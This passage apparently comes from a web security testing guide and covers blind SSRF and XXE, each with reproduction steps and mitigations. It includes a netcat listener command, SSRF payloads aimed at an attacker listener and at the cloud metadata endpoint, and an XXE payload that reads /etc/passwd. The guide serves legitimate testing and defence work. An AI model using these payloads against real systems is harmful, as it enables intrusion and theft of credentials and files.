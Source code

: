 
## 13. SERVER-SIDE REQUEST FORGERY (SSRF)

### 13.1 Blind SSRF

**Issue Description:**  
Application makes requests to attacker-controlled URLs without displaying response.

**Steps to Reproduce:**
1. Find features that fetch external resources (profile images, webhooks, etc.)
2. Set up a listener:
   ```bash
   nc -lvnp 8080
   ```
3. Submit URL pointing to your listener:
   ```json
   {"image_url": "http://your-ip:8080/test"}
   ```
4. Check if you receive connection
5. Test internal network access:
   ```json
   {"url": "http://127.0.0.1:8080"}
   {"url": "http://169.254.169.254/latest/meta-data/"}
   ```

**Expected Result:**  
Application should not make requests to arbitrary URLs.

**Mitigation:**
- Implement URL whitelist
- Disable redirects
- Validate and sanitize URLs
- Block internal IP ranges
- Use separate network for outbound requests

---

## 14. XML EXTERNAL ENTITIES (XXE)

### 14.1 XXE Attack

**Issue Description:**  
XML parser processes external entities, leading to file disclosure or SSRF.

**Steps to Reproduce:**
1. Find XML input (API endpoints, file uploads)
2. Intercept in Burp Suite
3. Test XXE payload:
   ```xml
   <?xml version="1.0"?>
   <!DOCTYPE foo [
   <!ENTITY xxe SYSTEM "file:///etc/passwd">
   ]>
   <root>
       <data>&xxe;</data>
   </root>
   ```
4. Check response for file contents
